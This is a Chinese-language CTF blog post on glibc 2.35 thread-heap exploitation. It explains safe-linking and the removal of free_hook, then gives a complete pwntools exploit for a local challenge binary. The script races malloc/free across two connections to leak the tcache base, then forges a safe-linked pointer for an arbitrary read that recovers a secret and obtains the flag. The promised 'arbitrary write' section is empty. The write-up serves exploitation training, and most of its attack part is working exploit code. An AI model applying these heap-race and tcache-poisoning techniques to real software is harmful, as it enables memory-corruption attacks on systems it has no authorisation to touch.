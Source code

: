 ```yaml
---
layout: post
tags: [pwn]
title: "glibc 2.35 thread-heap: arenas 利用手法"
author: wsxk
date: 2025-5-20
comments: true
---
```


- [0. glibc 2.35与 glibc 2.31的区别](#0-glibc-235与-glibc-231的区别)
- [1. arbitrary read](#1-arbitrary-read)
- [2. arbitrary write](#2-arbitrary-write)

`thread heap的利用手法多数都是依靠race condition来获取任意地址读写的能力，辅以一些常见的tips即可完成利用`<br>
**任意地址读写的说法其实也适用于其他的利用手法,从这个角度来思考安全问题是很有意义的**<br>
# 0. glibc 2.35与 glibc 2.31的区别<br>
最主要的区别在于移除了`free_hook`等之前非常好用的符号,已经`safe-linking`机制:<br>
参考这篇文章：[https://wsxk.github.io/safelinking/](https://wsxk.github.io/safelinking/)<br>
另外在调试glibc2.35可以发现：glibc2.35中的`tcache->key`部分也发生了修改，不再是`tcache_perthread_struct`了，而是真的随机的值.如下图所示：<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2025-9-25/20250518105647.png)
总之，`tcache->key`部分已经没有了价值，但是`tcache->next`部分非常有用。<br>

# 1. arbitrary read<br>
**利用arbitrary read可以任意读取.bss段（没有添加PIE）、Thread heap、Thread stack(主要利用第一个线程的栈空间与libc没有间隔)中的数据（前提是知道地址）**<br>
race的利用难度主要在于调试（个人理解）<br>

```python
from pwn import *
import os

#binary_path = "/challenge/babyprime_level1.1"
binary_path = './babyprime_level1.1'
p = process(binary_path)
r1 = remote("127.0.0.1",1337)
r2 = remote("127.0.0.1",1337)

idx = 0
def leak_pthread_struct_addr(r1,r2):
    global idx
    while True:
        if os.fork() == 0:
            for _ in range(100000):
                r1.sendline(b"malloc %d scanf %d AAAAAAAABBBBBBBB free %d"%(idx,idx,idx))
            os.kill(os.getpid(),9)
        for _ in range(100000):
            r2.sendline(b"printf %d" % idx)
        os.wait()
        r1.clean()
        output = r2.clean()
        try:
            result = set(output.split(b"\n"))
            print(result)
            #pause()
            leak  = next(x for x in result if ((b"\x07" in x) and len(x)>=17))
            print(leak)
            leak = u64(leak[9:17].ljust(8,b"\x00"))
            if leak & 0xff != 0:
                print("leak error, try again!!!")
                continue
            break 
        except Exception as e:
            print(f"error:{e}")
            print(f"leak pthread_struct_addr try again!!!")
    idx += 1
    return leak

def arbitrary_read(r1,r2,addr):
    global idx
    r1.clean()
    r2.clean()
    r1.sendline(b"malloc %d malloc %d free %d" %(idx,idx+1,idx+1))
    while True:
        if os.fork() == 0:
            r1.sendline(b"free %d" %(idx))
            os.kill(os.getpid(),9)
        r2.sendline((b"scanf %d "% (idx) + p64(addr)+b"BBBBBBBB\n")*2000)
        os.wait()
        r1.sendline(b"malloc %d printf %d"%(idx,idx))
        r1.recvuntil(b"MESSAGE: ")
        output = r1.recvline().strip(b"\n")
        target = p64(addr).split(b"\x00")[0]
        if output == target:
            break
    r1.sendline(b"malloc %d"%(idx+1))
    r1.clean()
    r1.sendline(b"printf %d"% (idx+1))
    r1.recvuntil(b"MESSAGE: ")
    value = u64(r1.recvline().strip(b"\n").ljust(8,b"\x00"))
    return value

# gdb.attach(p,"continue\n")
# pause()
# r1.sendline(b"malloc 1")
# r1.sendline(b"scanf 1 AAAAAAAABBBBBBBB free 1")
# r2.sendline(b"malloc 2")
# r2.sendline(b"scanf 2 CCCCCCCCDDDDDDDD free 2")
# pause()
pthread_struct_addr = leak_pthread_struct_addr(r1,r2)<< 12
log.success(f"pthread_struct_addr: {hex(pthread_struct_addr)}")
secret = arbitrary_read(r1,r2,(pthread_struct_addr>>12)^0x405460)
log.success(f"secret: {hex(secret)}")
r1.sendline(b"send_flag")
r1.recvuntil(b"Secret: ")
r1.sendline(p64(secret))
output = r1.clean()
print(output)
p.interactive()
```

# 2. arbitrary write<br>




<!-- Google tag (gtag.js) -->
<script async src="https://www.googletagmanager.com/gtag/js?id=G-C22S5YSYL7"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-C22S5YSYL7');
</script>